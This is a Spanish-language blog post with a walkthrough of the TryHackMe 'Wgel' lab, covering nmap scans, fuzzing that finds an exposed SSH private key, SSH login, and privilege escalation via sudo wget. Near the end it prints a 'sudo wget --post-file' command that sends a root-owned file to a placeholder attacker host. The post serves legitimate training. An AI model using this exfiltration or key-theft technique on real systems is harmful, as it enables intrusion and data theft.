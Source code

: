```yaml
---
layout: post
title: "Write Up Wgel. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Easy,Genin,Linux,THM,GTFOBins,SUDO,Reconnaissance,Weak-Credentials,Leaked-Information,Fuzzing-Web,eJPTv2,eWPT]
image:
  path: /assets/img/wgel/wgel.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### Nmap


```bash
nmap --open -p- -Pn -n -T4 -vvv -n 10.10.198.205 -oN allports
```


![list](/assets/img/wgel/1.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions

```bash
nmap -sVC -Pn -n -p22,80 10.10.198.205 -oN target
```

![list](/assets/img/wgel/2.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Exploitation


### HTTP TCP-80


Aunque tenemos dos puertos, en el puerto 22 no podemos hace nada de momento, asi que nos vamos a concentrar en el puerto 80,pero no tiene nada solo pa pagina de apache,asi que vamos a empezar a fuzzerar y en contramos el diresctorio **/sitemap/** y lo fuzzeamos tambien.


![list](/assets/img/wgel/3.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/wgel/4.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pagina web.



![list](/assets/img/wgel/5.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Revisando el codigo vemos el nombre de un posible usuario que es **jessie**.


Es importante a la hora de fuzzear si no hencomtramos nada de primera fuuzeera con otros diccionario yo probe el big y luego el common y ahi encontre un directorio oculto **/.ssh/** en cual hay una calve privada que vamos a usar para conectarnos por ssh presumiblemente.


![list](/assets/img/wgel/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ditectorio **.ssh**.


![list](/assets/img/wgel/7.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Clave privada.


![list](/assets/img/wgel/8.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Connectamos a jessie por ssh, no olvidarnos darle permisos a la clave plubica.


![list](/assets/img/wgel/9.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el escritorio de jessie.


***

## Escalation Privileges

Primero, ejecutamos el comando **id** en Linux para obtener información sobre la identificación del usuario actual y los grupos a los que pertenece, ademas ejecutaremos **uname -a** y **lsb_release -a** para obtener información del sistema, verificaremossi otro usurio tiene permisos sudores con **sudo -l**, además, buscamos binarios con permisos **SUID** y tareas **Cron** en busca de posibles puntos de entrada. 

Si no encontramos resultados significativos con las acciones anteriores, procedemos a subir los binarios **linpeas** y **pspy** .etc, al sistema. Estos binarios nos ayudarán a realizar un análisis de reconocimiento más exhaustivo, identificando posibles vulnerabilidades o actividades sospechosas en el sistema.

También realizamos un análisis manual del sistema, buscando configuraciones inseguras, archivos sensibles o cualquier otra anomalía que pueda indicar una posible vulnerabilidad o actividad maliciosa.


![list](/assets/img/wgel/10.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con sudo -l vemos que root pude ejecutar [wget] sim proprcionar contraseña.

[wget]: https://gtfobins.github.io/gtfobins/wget/#sudo


{:.note title="Attention"}
Aqui es nesesaria ver la ayuda del el binario wget porque la forma que esta en gtobins es muy ambigua pero ahi otra forma que es con el parametro `sudo wget --post-file=/root/root_flag.txt http://attackip`, podemos mandar por el metodo post algun archivo en este caso la flag de root pero hay que tener en cuenta que si ponemos root.txt no nos sservira debemos fijarnos como esta escha la flag de user y copiar la estructura y listo ademas de poner la url de donde vamos a recibir el archivo debemos lenvantar u servidor tambien.



***

```bash
🎉 Felicitaciones ya has comprometido Wgel de Try Hack My 🎉
```
{:.centered}

***

Back to [Certification eJPTv2](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}
